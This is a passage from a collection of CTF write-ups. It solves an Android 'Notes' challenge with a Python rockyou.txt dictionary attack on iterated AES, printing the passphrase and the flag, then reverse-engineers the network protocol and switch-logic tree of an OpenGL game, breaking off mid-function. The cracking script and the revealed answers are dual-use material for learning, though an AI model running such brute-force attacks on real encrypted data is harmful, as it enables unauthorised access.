                        ((TextView)Part1.this.findViewById(id.textViewFLAG2)).setText(this.decrypt(s1, s));
                    }
                    catch(Exception exception0) {
                        exception0.printStackTrace();
                        textView0.setText(s1);
                        Toast.makeText(Part1.this, "Wrong passphrase", 0).show();
                    }

                    return;
                }

                Toast.makeText(Part1.this, "Please enter a password", 0).show();
            }
        });
        this.buttonLogout.setOnClickListener(new View.OnClickListener() {
            @Override  // android.view.View$OnClickListener
            public void onClick(View view0) {
                Intent intent0 = new Intent(Part1.this, MainActivity.class);
                Part1.this.startActivity(intent0);
            }
        });
    }
}
```

As you may noticed, the code is incomplete. For instance MainActivity sends the password fbG6pXd0wm1cz using an intent on Part1 but it is never being used. There are also methods such as generateFlag and MD5 that are not used at all. That makes sense because the challenge description clearly states that: [...] I know it's not done yet [...].

We type a random password and we get the Wrong passphrase toast:


Looking at the code, when the Activity starts, it loads `note` object from `storage.json`:

```
┌─[11:11:37]─[ispo@ispo-glaptop2]─[~/ctf/insomnihack_finals_2024/Notes]
└──> cat contents/assets/storage.json
{
  "AES-Type": "256",
  "note": "uS0D11dq3RM9QimRWfXcewwQdoxYwrZRNUGT205pDfQ="
}
```

We also get a hint that encryption is `AES-256`. When we enter a passphrase, `onClick` is called:

```java
@Override  // android.view.View$OnClickListener
public void onClick(View view0) {
	String s = Part1.this.editTextPassphrase.getText().toString().trim();
    if(!s.isEmpty()) {
        try {
            ((TextView)Part1.this.findViewById(id.textViewFLAG2)).setText(this.decrypt(s1, s));
        }
        catch(Exception exception0) {
            exception0.printStackTrace();
            textView0.setText(s1);
            Toast.makeText(Part1.this, "Wrong passphrase", 0).show();
        }

        return;
    }

    Toast.makeText(Part1.this, "Please enter a password", 0).show();
}
```

This invokes `decrypt` using the note `uS0D11dq3RM9QimRWfXcewwQdoxYwrZRNUGT205pDfQ=` and the passphrase we enter. To decrypt the note successfully, we have to make sure that no exception is raised:

```java
private String decrypt(String s, String s1) throws Exception {
    SecretKeySpec secretKeySpec0 = new SecretKeySpec(s1.getBytes(), "AES/ECB/PKCS7Padding");
    byte[] arr_b = Base64.decode(s, 0);
    Cipher cipher0 = Cipher.getInstance("AES/ECB/NoPadding");
    cipher0.init(2, secretKeySpec0);
    for(int v = 0; v < 313370; ++v) {
        arr_b = cipher0.doFinal(arr_b);
    }

    Cipher cipher1 = Cipher.getInstance("AES/ECB/PKCS7Padding");
    cipher1.init(2, secretKeySpec0);
    return new String(cipher1.doFinal(arr_b), "UTF-8");
}
```

Note gets decoded using Base64 and then it gets decrypted **313370+1** times using `AES-256` (we only have a single block so `ECB` is used). We also use `NoPadding` option to avoid throwing exceptions during the multiple decryptions. At the last decryption we use `PKCS7Padding` to make sure decryption is correct (if not an exception is thrown).

To find the correct passphrase we use the hint and we do a dictionary attack using [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt). The problem we have is that it is too slow. `rockyou.txt` has **14.344.391** passwords and we have to run decryption **313371** times for each password. Therefore we need to somehow optimize it.

If we type a random password, we can see that an exception like this is thrown in the `logcat`:

```
05-01 12:31:12.896  1683  1699 I native  : I0000 00:00:1714555872.896480    1699 tf_lite_classifier.cc:383] Event stream classified as kNone
05-01 12:31:12.901  8595  8595 W System.err: java.security.InvalidKeyException: Unsupported key size: 4 bytes
05-01 12:31:12.902  8595  8595 W System.err: 	at com.android.org.conscrypt.OpenSSLEvpCipherAES$AES.checkSupportedKeySize(OpenSSLEvpCipherAES.java:154)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.android.org.conscrypt.OpenSSLCipher.checkAndSetEncodedKey(OpenSSLCipher.java:480)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.android.org.conscrypt.OpenSSLCipher.engineInit(OpenSSLCipher.java:295)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher.tryTransformWithProvider(Cipher.java:2985)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher.tryCombinations(Cipher.java:2892)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher$SpiAndProviderUpdater.updateAndGetSpiAndProvider(Cipher.java:2797)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher.chooseProvider(Cipher.java:774)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher.init(Cipher.java:1144)
05-01 12:31:12.902  8595  8595 W System.err: 	at javax.crypto.Cipher.init(Cipher.java:1085)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.example.firstjavaapplication.Part1$1.decrypt(Part1.java:138)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.example.firstjavaapplication.Part1$1.onClick(Part1.java:103)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.view.View.performClick(View.java:7506)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.google.android.material.button.MaterialButton.performClick(MaterialButton.java:1218)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.view.View.performClickInternal(View.java:7483)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.view.View.-$$Nest$mperformClickInternal(Unknown Source:0)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.view.View$PerformClick.run(View.java:29335)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.os.Handler.handleCallback(Handler.java:942)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.os.Handler.dispatchMessage(Handler.java:99)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.os.Looper.loopOnce(Looper.java:201)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.os.Looper.loop(Looper.java:288)
05-01 12:31:12.902  8595  8595 W System.err: 	at android.app.ActivityThread.main(ActivityThread.java:7898)
05-01 12:31:12.902  8595  8595 W System.err: 	at java.lang.reflect.Method.invoke(Native Method)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.android.internal.os.RuntimeInit$MethodAndArgsCaller.run(RuntimeInit.java:548)
05-01 12:31:12.902  8595  8595 W System.err: 	at com.android.internal.os.ZygoteInit.main(ZygoteInit.java:936)
05-01 12:31:12.904   819  2307 D audio_hw_waves: waves_usecase_event: low-latency-playback stream info change
```

That is, the passphrase that we try must be of the "correct size" to avoid the `Unsupported key size: 4 bytes` exception. Since we are on `AES-256` the correct size is **32** characters long.

At the point we have two options. The first one is to `MD5` each password from the wordlist so all passwords become **32** bytes. The intuition is that there is an `MD5` method which is not being used. However this approach was still very slow. The second approach is to filter out all passwords from the wordlist which are not **32** bytes long.

```python
import base64
import hashlib
from Crypto.Cipher import AES

def decrypt(key):
    ciphertext = base64.b64decode('uS0D11dq3RM9QimRWfXcewwQdoxYwrZRNUGT205pDfQ=')

    assert (len(key) == 32)
    decryptor = AES.new(key=key, mode=AES.MODE_ECB)

    for i in range(313370):
        ciphertext = decryptor.decrypt(ciphertext)

    decryptor = AES.new(key=key, mode=AES.MODE_ECB)
    ciphertext = decryptor.decrypt(ciphertext)
    return ciphertext

if __name__ == "__main__":
    print('[+] Notes crack started.')

    crackdict = open('rockyou.txt', 'rb').readlines()
    print('[+] rockyou.txt (first 10):', ', '.join(
        crackdict[i].strip().decode('utf-8') for i in range(10)))

    print('[+] rockyou.txt total passwords:', len(crackdict))

    for i, passphrase in enumerate(crackdict):
        passphrase = passphrase.strip()

        if len(passphrase) != 32:
            continue

        # 1st approach (wrong)
        # passphrase = hashlib.md5(passphrase).hexdigest().upper().encode('utf-8')
        # print(passphrase)

        plain = decrypt(passphrase)
        if b'FLAG1' in plain or b'INS{' in plain:
            print('[+] Passphrase FOUND:', passphrase)
            print('[+] Flag:', plain)
            break

    print('[+] Program finished. Bye bye :)')

```

We try the second approach and after a minute, we get the correct passphrase (and the flag):

```
letsyouupdateyourfunNotesandmore
```

We can also verify it in the app:


For more details, please refer to the [notes_crack.py](https://github.com/ispoleet/ctf-writeups/blob/master/insomnihack_finals_2024/Notes/notes_crack.py) file.

So, the flag is: `INS{H4PPY_H4CK1N6}`

### **Problem - 43 :**

Don't Open The Door

[https://drive.google.com/file/d/1Zsx6Xk_ITKtwi6s6_4Qa-3zURBMmBH6H/view?usp=drive_link](https://drive.google.com/file/d/1Zsx6Xk_ITKtwi6s6_4Qa-3zURBMmBH6H/view?usp=drive_link)

Solution :

The binary is written using OpenGL and C++ STL and it basically implements a game. Player moves with the `a`, `s`, `d` and `w` keys and camera moves with the arrows:


It is very important to **understand what the game really does**. As the description says, we "have to" open the door in the house. To do that, we move close to the black switch and we press `e` (we can find that if look at the binary). Then the switch toggles and becomes white, the black cube in the middle moves up and also becomes white and the door opens:


We move inside the house, where there is a yellow switch:


We toggle the yellow switch and games advances to `Level 2`. We have to do this fast though (`< ~10` seconds); if we are too slow we will get a `Disconnected :-(` error and the game does not proceed to the next level:


On `Level 2` we have **2** switches where any of them lifts the cube and opens the door:


So the game is clear now: We have to find out which switches to set in order to make the door open. On each level we can have more and more switches and "walls" (the cubes in the middle). *The correlation between the switches and the walls is unknown*; We do not really know which switch activates which walls. Also **not all walls have to be up to open the door**. In fact, **when the topmost wall is up the door opens**. We continue playing the game, but after `Level 11` things start becoming unmanageable:


It is really impossible to properly set all the switches and get into the room without hitting the timeout. Logic says that **if we pass a certain number of levels we will get the flag**. It is now time to look at the binary.

---

**Reversing The Binary**

Binary is implemented using OpenGL and contains C++ STL structures. Let's start from `main` (I have renamed all functions to make code easier to follow):

```
int __fastcall main(int argc, char **argv, char **envp) {
  game_state *state; // rbx

  u_initialize_glut(argc, argv);
  u_enable_gl_caps();
  u_register_callbacks();
  state = operator new(0x120uLL);
  u_init_game_state_struct(state);
  glo_game_state = state;
  u_talk_to_server(state);
  u_register_timer_init();
  glutMainLoop();                               // Once called, this routine will never return
  return 0;
}
```

`main` initializes the `glut` environment and then registers a few callback functions to handle various the pressed keys and render the screen:

```
void __fastcall u_register_callbacks() {
  glutDisplayFunc(u_callback_display);
  glutKeyboardFunc();
  glutKeyboardUpFunc(u_callback_keyboard_up);
  glutSpecialFunc();
  glutSpecialUpFunc(u_callback_special_up);
  glutReshapeFunc(u_callback_reshape);
  glutIgnoreKeyRepeat(1LL);
}
```

```
void __fastcall u_register_timer_init() {
  // void glutTimerFunc(unsigned int msecs, void (*func)(int value), value);
  glutTimerFunc(0LL, u_callback_timer_func, 0LL);
}
```

```
void __fastcall u_callback_timer_func(int a1_value) {
  glutTimerFunc(16LL, u_callback_timer_func, 0LL); // re-register itself after 16ms
  u_dispatch_pressed_key();
  u_render_game_state();
  glutPostRedisplay();
}
```

Inside `u_init_game_state_struct` at `555555567206h`, there is a call to `u_connect_to_server` at `5555555651F0h`:

```
void __fastcall u_init_game_state_struct(game_state *state) {
  /* ... */
  state->field_28 = 0LL;
  state->socket = u_connect_to_server();
  state->current_level = 0;
  /* ... */
}
```

```
int __fastcall u_connect_to_server() {
  /* ... */
  setsockopt(sock, 1, 20, &si128, 0x10u);
  if ( !gethostbyname("rick.challenges.ooo") )
    goto SOCK_ERROR;
  addr = 0LL;
  addr.sa_family = 2;
  __memmove_chk();
  *addr.sa_data = 0xF710;                       // 4343
  if ( connect(sock, &addr, 0x10u) < 0 )
    goto SOCK_ERROR;
  buf = 0;
  p_buf = &buf;
  do {                                          // check recv header ('RICK')
    if ( recv(sock, p_buf, 1uLL, 0) != 1 )
      goto SOCK_ERROR;
    ++p_buf;
  } while ( p_buf != &canary );
  if ( memcmp(&buf, "RICK", 4uLL) ) {
SOCK_ERROR:
    std::__ostream_insert<char,std::char_traits<char>>();
    std::endl<char,std::char_traits<char>>();
    goto LABEL_10;
  }
  return sock;
}
```

Function connects to `rick.challenges.ooo` at port `4343` and expects to read the word `RICK`. Going back to `main`, another important function is called: `u_talk_to_server` at `55555555BC00h` that receives the data for the current level from the server:

```
void __fastcall u_talk_to_server(game_state *state) {
  /* ... */
  canary = __readfsqword(0x28u);
  // To find out that the field below is the level field do the following:
  // 1. Search for "Level" string follow XREF to see where it's used (inisde u_print_level)
  // 2. Toggle the first switch using `e` and move into the room
  // 3. Set a breakpoing when 'e' is pressed and toggle the second switch
  // 4. Set a breakpoint inside u_print_level and continue execution
  ++state->current_level;
  p_buf = &buf;
  do {
    nread = recv(state->socket, p_buf, 1uLL, 0);
    insert_left = nread;
    if ( nread != 1 || buf == 'OK' ) { // BAD!
      std::__ostream_insert<char,std::char_traits<char>>(std::cerr, "disconnected", 12LL);
      /* ... */
      return;
    }
    ++p_buf;
  } while ( &canary != p_buf );                   // read 4 bytes
  if ( !state->switch_output )
    return;
  buf_ = buf;
  key_RICK = 'KCIR';
  state->serv_buf_len = buf;
  // This is executed when we get the flag (it simply prints the flag to the screen)
  if ( buf_ == 'KCIR' ) {                       // This is probably when we get the flag?
    if ( u_recv_many(state->socket, &buf, 4u) == -1 )// read buffer length
    {
ERROR:
      state->switch_output = 0;
      return;
    }
    buf_len = buf;
    serv_buf = state->serv_buf;
    socket = state->socket;
    state->serv_buf_len = buf;
    if ( u_recv_many(socket, state->serv_buf, buf_len) == -1 )
      state->switch_output = 0;
    serv_buf_len = state->serv_buf_len;
    if ( serv_buf_len ) {
      state->serv_buf[0] ^= 'R';                // Do a Vigenere cipher with RICK as key (decrypt)
      if ( serv_buf_len > 1 ) {
        key_len = 1LL;
        do {
          state->serv_buf[key_len] ^= *(&key_RICK + (key_len & 3)); // flag decrypt
          ++key_len;
        } while ( key_len != serv_buf_len - 2 + 2LL );
      }
      flag = flag_;                             // flag
      v93 = serv_buf_len;
      /* ... */
      flag_len = v93;
      flag__ = flag;
    } else {
      flag_len = 0LL;
      flag = flag_;
      flag__ = flag_;
    }
STR_OK:
    /* ... */
    flag = flag_;
    cnt_str_contents = flag_;
END:
    /* ... */
  }
  // ----------------------------------------------------
  // ACTUAL CODE STARTS FROM HERE
  server_buffer = state->server_buffer;
  if ( server_buffer ) {
    free(server_buffer);
    buf_ = state->serv_buf_len;
  }
  buflen = 4 * buf_;
  serv_buf2 = malloc((4 * buf_));
  sock = state->socket;
  state->server_buffer = serv_buf2;
  if ( u_recv_many(sock, serv_buf2, buflen) == -1 )// read at least 3 DWORDS: A, B, Cs
    goto ERROR;
  switch_output = state->switch_output;
  if ( !switch_output )
    return;
  // clean up / reinitialize all structs
  u_initialize_player_pos_v2(state->player_pos_ptr);
  u_initialize_struct_5_v2(state->switch_obj_ptr);
  u_initialize_struct_1_v2(state->struct_1_ptr);
  u_initialize_struct_3_v2(state->struct_3_ptr);
  stl_ptr = state->some_stl_ptr;
  /* ... */
  // initialize again
  glo_tree_size_maybe = 1;
  v16 = operator new(0x68uLL);
  server_buffer_1 = state->server_buffer;
  struc_3 = v16;
  A = *server_buffer_1;
  v20 = (v16 + 0x38);
  state->field_28 = v16;
  memset(v16, 0, 0x68uLL);
  *(v16 + 9) = v16 + 0x38;
  *(v16 + 3) = v16 + 8;
  *(v16 + 4) = v16 + 8;
  *(v16 + 0xA) = v16 + 0x38;
  x = (v16 + 8);
  root_node_op = A % 10;
  struct_5_maybe = operator new(0x30uLL);
  tmp = glo_tree_size_maybe;
  struct_5_maybe->begin = 0LL;
  *&struct_5_maybe->end = 0LL;
  prev_node = x;
  glo_tree_size_maybe = tmp + 1;
  curr_node = *(struc_3 + 16);
  struct_5_maybe->field_28 = 0LL;
  struct_5_maybe->size = tmp;
  struct_5_maybe->node_operation = root_node_op;
  struct_5_maybe->next = 0;
  struct_5_maybe->switch_output = 0;
  struct_5_maybe->struct_3 = struc_3;
  /* ... */
  cur_node = curr_struc_5;
  // LSB(B) = how many children node has
  if ( root_node_op && (B_lsb = server_buffer_1[4], server_buffer_1[4]) ) {
    ii = 0;
    headera = &curr_struc_5->begin;
    j = 8;
    do {                                         // insert all nums after first 2
      while ( 1 ) {
        inserted = u_rb_tree_insert_op_2(struc_3, &server_buffer_1[j], 1, &curr_struc_5);// Insert Cs
        v61 = *&cur_node->end;
        v93 = inserted;
        if ( v61 == cur_node->field_28 )
          break;
        *v61 = inserted;
        j += curr_struc_5;
        ++ii;
        *&cur_node->end = v61 + 8;
        if ( B_lsb == ii )
          goto BREAK_LOOP;
      }
      ++ii;
      u_vector_insert(headera, v61);
      j += curr_struc_5;
    }
    while ( B_lsb != ii );
BREAK_LOOP:
    *(struc_3 + 96) = cur_node;
  } else {
    *(struc_3 + 96) = curr_struc_5;
    if ( !cur_node )
      abort();
  }

  for ( last_child = cur_node->begin; *&cur_node->end != last_child; last_child = (last_child + 8) ) {
    v63 = *&last_child->size;
    u_recursive_func_1(v63);
  }
  // A % 10 = node operation
  switch ( cur_node->node_operation ) {
    case 0u:
      goto AFTER_SWITCH;
    case 1u:                                    // NOT
      cur_node->switch_output = *(*cur_node->begin + 12LL) ^ 1;
      goto AFTER_SWITCH;
    case 2u:                                    // AND
      val = cur_node->begin;
      cur_node->switch_output = 1;
      if ( val == last_child )
        goto AFTER_SWITCH;
      while ( *(*val + 12LL) )
      {
        val += 8LL;
        if ( last_child == val )
          goto AFTER_SWITCH;
      }
      goto SWITCH_OUTPUT_ZERO;
    case 3u:                                    // OR
      v76 = cur_node->begin;
      cur_node->switch_output = 0;
      if ( v76 == last_child )
        goto AFTER_SWITCH;
      while ( !*(*v76 + 12LL) )
      {
        v76 += 8LL;
        if ( last_child == v76 )
          goto AFTER_SWITCH;
      }
      cur_node->switch_output = 1;
      goto AFTER_SWITCH;
    case 4u:                                    // XOR
      begin = cur_node->begin;
      for ( cur_node->switch_output = 0; last_child != begin; begin = (begin + 8) )
      {
        if ( *(*&begin->size + 12LL) )
          cur_node->switch_output ^= 1u;
      }
      goto AFTER_SWITCH;
    case 5u:                                    // NAND
      v74 = cur_node->begin;
      cur_node->switch_output = 1;
      if ( v74 == last_child )
        goto SWITCH_OUTPUT_ZERO_;
      while ( *(*&v74->size + 12LL) )
      {
        v74 = (v74 + 8);
        if ( last_child == v74 )
          goto SWITCH_OUTPUT_ZERO_;
      }
      goto SET_SWITCH_OUTPUT;
    case 6u:                                    // NOR
      v72 = cur_node->begin;
      cur_node->switch_output = 0;
      if ( v72 == last_child )
        goto SET_SWITCH_OUTPUT;
      while ( !*(*v72 + 12LL) )
      {
        v72 += 8LL;
        if ( last_child == v72 )
          goto SET_SWITCH_OUTPUT;
      }
SWITCH_OUTPUT_ZERO_:
      switch_output = 0;
SET_SWITCH_OUTPUT:
      cur_node->switch_output = switch_output;
      goto AFTER_SWITCH;
    case 7u:                                    // ALTERNATE
      v67 = cur_node->begin;
      v68 = *v67;
      v69 = (v67 + 1);
      v70 = *(v68 + 12);
      cur_node->switch_output = 1;
      if ( v69 == last_child )
        goto AFTER_SWITCH;
      break;
    case 8u:                                    // 1st and last are 0
      first = cur_node->begin;
      if ( *(*first + 12LL) )
        goto SWITCH_OUTPUT_ZERO;
      if ( (last_child - first) != 8 )
        cur_node->switch_output = *(last_child[-1].field_28 + 12) == 0;
      goto AFTER_SWITCH;
    case 9u:                                    // 1st and last are 1
      first_ = cur_node->begin;
      if ( !*(*first_ + 12LL) )
        goto SWITCH_OUTPUT_ZERO;
      if ( (last_child - first_) != 8 )
        cur_node->switch_output = *(last_child[-1].field_28 + 12) != 0;
      goto AFTER_SWITCH;
    default:
      u_error_updateState(cur_node);
  }
  while ( 1 ) {
    v71 = v70;
    v70 = *(*&v69->size + 12LL);
    if ( v70 == v71 )
      break;
    v69 = (v69 + 8);
    if ( last_child == v69 )
      goto AFTER_SWITCH;
  }
SWITCH_OUTPUT_ZERO:
  cur_node->switch_output = 0;
AFTER_SWITCH:
  struct_1_ptr = state->struct_1_ptr;
  state->switch_obj_ptr->field_28 = state->field_28;
  u_initialize_struct_1_v2(struct_1_ptr);
  // Draw switches and walls
  sub_55555555EE60(&state->struct_1_ptr->struct_1, state, v1, v2, v3, v4);
  sub_55555556DFD0(&state->struct_3_ptr->field_0);
}
```

This function does quite a lot of things. First of all, it reads **4** bytes which is a little endian number and corresponds to the number of (random) DWORDs that will follow. There are two special cases however:

- The **4** bytes are the word `KO` (or `KOKO`). That means we either have sent the wrong data to the server, or we got a timeout.
- The **4**bytes are the word `RICK`. That means we have completed all levels and it's time to receive the flag.

The **random** numbers that we receive from the server look like this:

```
  0x99C9A710, 0x44E2AC02, 0xF00C81D9, 0xC1217502, 0x2C7C9F44, 0xFD499FE6, 0xB09214AB, 0xF0608702, 0x34C8AE04, 0xA5D62A18
```

However, for every number we either keep the **modulo 10** or the **LSB**, so even though each time we receive different random numbers, the actual contents remain the same.

These numbers are actually correspond to a **pre-order tree traversal array notation**. The first number (modulo **10**) corresponds to the **node operation** (we will see it later on). We have **10** different operations according to the last `switch` statement in the function. The next number (modulo **256**) corresponds to the **number of children for that node**. Then, **there is a recursion**: the third number, corresponds to the node operation of the leftmost child of the root node and so on. When the node operation becomes **0**, it means we have reached a leaf node and recursion returns. Back to our example, the random numbers correspond to the following tree:

```
99C9A710, op:2, #2
F00C81D9, op:3, #2
2C7C9F44, op:0, #-1
FD499FE6, op:0, #-1
B09214AB, op:3, #2
34C8AE04, op:0, #-1
A5D62A18, op:0, #-1
[+] Root node: ['99C9A710']
    Curr node: 99C9A710, op:AND, #2, exp:1
      OR: i:0 Next:3
        Curr node: F00C81D9, op:OR, #2, exp:1
          None: i:0 Next:0
          None: i:1 Next:0
      OR: i:1 Next:3
        Curr node: B09214AB, op:OR, #2, exp:1
          None: i:0 Next:0
          None: i:1 Next:0

```

After the tree is set up, function draws the switches and the walls and the game starts. Every time we press a key we end up calling `u_dispatch_pressed_key` at `55555555A570h` to process the pressed keystroke:

```
void __fastcall u_dispatch_pressed_key() {
  /* ... */
  switch_obj_ptr = glo_game_state->switch_obj_ptr;
  struct_3 = switch_obj_ptr->struct_3;
  if ( struct_3 != switch_obj_ptr->begin ) {
    while ( 1 ) {
      if ( u_REVERSE_ME_IMPORTANT(key_pressed) ) {// only 'e' returns 1 ?
        prev_key_down = switch_obj_ptr->begin;
        /* ... */
      }
      /* ... */
    }
    // update arrows
    player_pos_ptr = glo_game_state->player_pos_ptr;
    if ( !struct_5_get_next(glo_game_state->switch_obj_ptr) ) {
      key = key_pressed & 0x7FFFFFFF;
      if ( key == 'f' ) {
        u_turn_camera_left(player_pos_ptr, 5.0);
      } else if ( key > 'f' ) {
        if ( key == 'g' )
          u_turn_camera_down(player_pos_ptr, 2.0);
      } else if ( key == 'd' ) {
        u_turn_camera_right(player_pos_ptr, 5.0);
      } else if ( key == 'e' ) {
        u_turn_camera_up(player_pos_ptr, 2.0);
      }
    }
    goto LABEL_14;
  }
}
```

The most important function here is obviously the `u_REVERSE_ME_IMPORTANT` at `555555559F20h`:

```
bool __fastcall u_REVERSE_ME_IMPORTANT(char a1_key_pressed) {
  /* ... */
  canary = __readfsqword(0x28u);
  player_pos_struc = glo_game_state->player_pos_ptr;
  switch_obj_ptr = glo_game_state->switch_obj_ptr;
  struct_1_ptr = glo_game_state->struct_1_ptr;
  x = u_struct_2_get_x(player_pos_struc);
  y = u_struct_2_get_y(player_pos_struc);
  z = u_struct_2_get_z(player_pos_struc);
  if ( struct_5_get_next(switch_obj_ptr) )
    return 0;
  switch ( a1_key_pressed ) {
    case 'A':
    case 'a':
      v7 = 5;
      while ( 1 ) {
        u_move_left(player_pos_struc);
        if ( sub_55555555EA10(struct_1_ptr, player_pos_struc) )
          break;
        if ( !--v7 )
          goto EVERY_OTHER_KEY_PRESSED;
      }
      u_move_left(player_pos_struc);
      break;
    case 'D':
    case 'd':
      v5 = 5;
      while ( 1 ) {
        u_move_right(player_pos_struc);
        if ( sub_55555555EA10(struct_1_ptr, player_pos_struc) )
          break;
        if ( !--v5 )
          goto EVERY_OTHER_KEY_PRESSED;
      }
      u_move_right(player_pos_struc);
      break;
    case 'S':
    case 's':
      prev_key_down = switch_obj_ptr->begin;
      struct_3 = switch_obj_ptr->struct_3;
      a1._M_color = 32;
      v14 = 10;
      if ( switch_obj_ptr->begin != sub_55555555C8D0(struct_3, prev_key_down, &a1) )
        v14 = 40;
      v15 = 0;
      while ( 1 ) {
        u_move_down(player_pos_struc, 1.0);
        if ( sub_55555555EA10(struct_1_ptr, player_pos_struc) )
          break;
        if ( v14 == ++v15 )
          goto EVERY_OTHER_KEY_PRESSED;
      }
      u_move_down(player_pos_struc, -1.0);
      break;
    case 'W':
    case 'w':
      v8 = switch_obj_ptr->begin;
      v9 = switch_obj_ptr->struct_3;
      a1._M_color = 32;
      v10 = 40;
      if ( switch_obj_ptr->begin == sub_55555555C8D0(v9, v8, &a1) )
        v10 = 10;
      v11 = 0;
      while ( 1 ) {
        u_move_up(player_pos_struc, 1.0);
        if ( sub_55555555EA10(struct_1_ptr, player_pos_struc) )
          break;
        if ( v10 == ++v11 )
          goto EVERY_OTHER_KEY_PRESSED;
      }
      u_move_up(player_pos_struc, -1.0);
      break;
    default:
      break;
  }                                             // Check 'a', 's', 'd', 'w' keys and move to the 4 directions
EVERY_OTHER_KEY_PRESSED:
  if ( (a1_key_pressed & 0xDF) != 'E' )         // 0xDF = 1101 1111 (ignore 0x20 which is upper/lower case). Smart! ;)
  {
    result = 0;
    if ( a1_key_pressed == 0x1B )               // If escape was pressed, exit
      exit(0);
    return result;
  }
  // ------------------------- 'e' was pressed -------------------------
  // Toggle the switch
  game_state = glo_game_state;
  a3.begin = 0LL;
  *&a3.end = &a3.struct_3;
  v17 = glo_game_state->field_28;
  a3.field_28 = &a3.struct_3;
  LODWORD(a3.struct_3) = 0;
  v18 = *(v17 + 16);
  v51 = 0LL;
  if ( v18 ) {
    *&a1._M_color = &a3.next;
    v19 = u_rb_tree_clone(&a3.next, v18, &a3.struct_3);// recursive
    v20 = v19;
    /* ... */
  }
  /* ... */
LABEL_33:
  if ( v21 != &a3.struct_3 ) {
    // This loop goes as many times as the number of switches
    while ( 1 ) {
      curr_switch = v21->field_28;
      if ( !curr_switch->node_operation )
      {
        M_left = a1._M_left;
        size = curr_switch->size;
        v29 = &a1._M_parent;
        if ( !a1._M_left )
          goto LABEL_42;
        do {
          while ( size <= M_left->end ) {
            v29 = M_left;
            M_left = M_left->struct_3;
            if ( !M_left )
              goto LABEL_40;
          }
          M_left = M_left->begin;
        }
        while ( M_left );
LABEL_40:
        if ( v29 == &a1._M_parent || size < v29->end ) {
LABEL_42:
          v48 = v29;
          v30 = operator new(0x30uLL);
          v30->end = size;
          v30->field_28 = 0LL;
          p = v30;
          v31 = sub_55555555C980(&a1, v48, &v30->end);
          v33 = v31;
          if ( v32 )
          {
            if ( v31 || &a1._M_parent == v32 )
              LOBYTE(v34) = 1;
            else
              v34 = p->val_1 < v32->val_1;
            std::_Rb_tree_insert_and_rebalance(v34, p, v32, &a1._M_parent);
            v29 = p;
            ++v54;
          }
          /* ... */
        }
        if ( u_is_touching_switch(v29->field_28, x, y, z) )
          break;
      }
      v21 = std::_Rb_tree_increment(v21);
      if ( v21 == &a3.struct_3 )
        goto SWITCH_MISSED;
    }
    u_toggle_switch(curr_switch);
    glo_game_state->field_38 = 1;
    goto TEARDOWN;
  }
SWITCH_MISSED:
  game_state = glo_game_state;
SWITCH_INSIDE_ROOM:
  if ( game_state->switch_output
    && u_is_touching_switch(game_state->struct_1_ptr->switch_pos, x, y, z)
    && *(*(glo_game_state->field_28 + 0x60) + 12LL) )
  {
    u_send_to_server(glo_game_state);
    u_talk_to_server(glo_game_state);
  }
TEARDOWN:
  /* ... */
  return 1;
}
```

The first part of this function dispatches keys `a`, `s`, `d` and `w` which simply move the player. Then there is the special key `e`. First of all function checks if player is close to a switch using `u_is_touching_switch` at `55555556B210h`, otherwise nothing happens. If player is close to a switch then function `u_toggle_switch` at `55555556C110h` is called to activate/deactivate the switch. Finally, if the activated switch is the special switch inside the room (label `SWITCH_INSIDE_ROOM`), then code calls `u_send_to_server` at `55555555CD40h` to send the state of the switches to the server:

```
void __fastcall u_send_to_server(game_state *a1_ispo_struct) {
  /* ... */
  if ( a1._M_right != &a1._M_parent )           // build binary string for server
  {
    while ( 1 ) {
      M_parent = M_right[1]._M_parent;
      if ( *(M_parent + 1) )
        goto LABEL_10;
      // Build a string and add 0 or 1 based on the switch state.
      if ( *(M_parent + 12) ) {
        std::__ostream_insert<char,std::char_traits<char>>();
LABEL_10:
        M_right = std::_Rb_tree_increment(M_right);
        if ( M_right == &a1._M_parent )
          break;
      } else  {
        std::__ostream_insert<char,std::char_traits<char>>();
        M_right = std::_Rb_tree_increment(M_right);
        if ( M_right == &a1._M_parent )
          break;
      }
    }
  }
  /* ... */
  memset(v15, 0, n + 2);
  strncpy(send_buf, src, len);
  send_buf[len] = '\n';
  *key = 'KCIR';
  if ( len ) {                                   // Vigenere cipher
    *send_buf ^= 'R';
    i = 1;
    ii = 1LL;
    if ( len > 1 ) {
      do {
        send_buf[ii] ^= key[i++ & 3];
        ii = i;
      } while ( i < len );
    }
  }
  nsend = send(a1_ispo_struct->socket, send_buf, len + 1, 0);
  /* ... */
}
```

`u_send_to_server` creates a binary string that encodes the state of every switch and sends it to the server. Before sending it, it encrypts it with Vigenere cipher using `RICK` as key. The response of the server is handled by `u_talk_to_server`. If the state all switches is correct, server will reply with the tree layout of the next level. If not, it will reply with a `KO`. Hence, it's not enough just activate the switch inside the room (even if we somehow bypass the door); the switches must be in a correct state.

Finally, we have `u_toggle_switch` at `55555556C110h`, which is called to alternate the state of a switch and move the walls:

```
void __fastcall u_toggle_switch(switch_obj *a1) {
  /* ... */
  if ( a1->node_operation )
    goto ABORT;

  curr_switch_output = a1->switch_output;
  v2 = *(a1->struct_3 + 96);
  /* ... */
  a1->switch_output = 1;
  if ( !v2 )
    goto ABORT;
  for ( i = v2->begin; *&v2->end != i; ++i ) {
    v6 = *i;                                    // each is a number sequence
    u_recursive_func_1(v6);
  }
  switch ( v2->node_operation ) {               // this is A
    case 0u:
      return;
    case 1u:
LABEL_18:
